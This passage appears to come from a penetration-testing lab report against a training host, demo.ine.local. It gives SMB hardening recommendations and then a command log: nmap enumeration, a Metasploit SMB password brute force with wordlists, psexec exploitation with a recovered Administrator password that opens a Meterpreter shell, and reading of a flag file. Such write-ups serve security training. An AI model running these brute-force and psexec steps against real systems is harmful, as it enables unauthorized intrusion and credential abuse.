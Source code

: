 ### Recommendations by Priority:

#### Immediate (0-7 days):
1. **Change Default Credentials:** Reset all identified weak passwords
2. **Disable SMB v1:** Remove legacy protocol support
3. **Enable SMB Signing:** Require message signing for integrity

#### Short Term (1-4 weeks):
1. **Network Segmentation:** Isolate administrative systems
2. **Access Controls:** Implement principle of least privilege
3. **Monitoring:** Deploy SMB traffic analysis and alerting

#### Long Term (1-3 months):
1. **Password Policy:** Enforce complex password requirements
2. **Multi-Factor Authentication:** Implement MFA for administrative accounts
3. **Regular Assessment:** Schedule quarterly SMB security reviews
```

### **🔧 Technical Evidence Documentation:**
```markdown
## Detailed Technical Evidence

### Command Execution Log:
```bash
# [2024-07-10 13:31:25] Initial discovery
nmap demo.ine.local
# Output: 4 open ports identified, SMB service confirmed

# [2024-07-10 13:32:15] Protocol enumeration
nmap -p445 --script smb-protocols demo.ine.local
# Output: Multiple SMB protocol versions detected

# [2024-07-10 13:35:42] Credential attack initiated
msfconsole -q
use auxiliary/scanner/smb/smb_login
set RHOSTS demo.ine.local
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
exploit
# Output: 4 successful credential combinations identified

# [2024-07-10 13:39:18] System exploitation
use exploit/windows/smb/psexec
set RHOSTS demo.ine.local
set SMBUser Administrator
set SMBPass qwertyuiop
exploit
# Output: Meterpreter session 1 opened successfully

# [2024-07-10 13:41:33] Post-exploitation
shell
cd /
dir
type flag.txt
# Output: Flag e0da81a9cd42b261bc9b90d15f780433 captured
```
